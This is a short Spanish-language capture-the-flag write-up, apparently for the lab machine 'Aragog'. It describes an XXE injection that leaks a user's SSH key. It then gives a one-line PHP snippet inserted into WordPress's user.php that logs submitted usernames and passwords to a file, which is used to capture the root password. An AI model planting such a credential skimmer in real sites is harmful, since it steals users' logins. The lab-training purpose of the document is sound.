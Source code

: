 ---------------------
- Tags: #XXE #wps
-------------
## Tecnicas utilizadas
- XXE (XML External Entity Injection) Exploitation  
- Modifying a wordpress login to steal credentials (Privilege Escalation)
------------
## Procedimiento
![[Pasted image 20230610115408.png]]

#### XXE (XML External Entity Injection) Exploitation 

Nmap nos reporta solo 3 puertos abiertos. **FTP, SSH y HTTP**. Si visitamos la pagina principal vemos que solo tenemos la pagina por defecto de apache2. Haciendo fuzzing con gobuster y filtrando por archivos PHP encontramos un **Hosts.php** el cual, haciendo un curl desde consola y agregando un formato como el archivo encontrado en FTP(permite iniciar sesion con el usuario *anonymous*) nos da cuantos hosts puede tener determinada mascara de red.

Intentamos un XXE y vemos que se cuela, asi que verificando varios archivos del sistema, damos con la **id_rsa** del usuario *Florian*.

------------------
#### Modifying a wordpress login to steal credentials (Privilege Escalation)

Nos conectamos por SSH y vamos directo a la carpeta de */var/www/html* y vemos que hay un *dev_wiki* si ingresamos hay contraseñas para el usuario root en la base de datos. No sirve de nada realmente, ya que la contraseña que hay en la base de datos es muy robusta e incrackiable.
Utilizando *pspy*. podemos darnos cuenta de que hay un usuario autenticando contra la web en intervalos regulares de tiempo.
Si modificamos el *wp-includes/user.php* y agregamos el siguiente codigo:

```php
file_put_contents("log.txt", $_POST['log'] . " : " . $_POST['pwd'], FILE_APPEND);
```

Y haciendo un *watch -n 1 curl http://aragog.htb/wiki_dev/log.txt* hay un momento donde la contraseña de root de leekea en el archivo log.txt
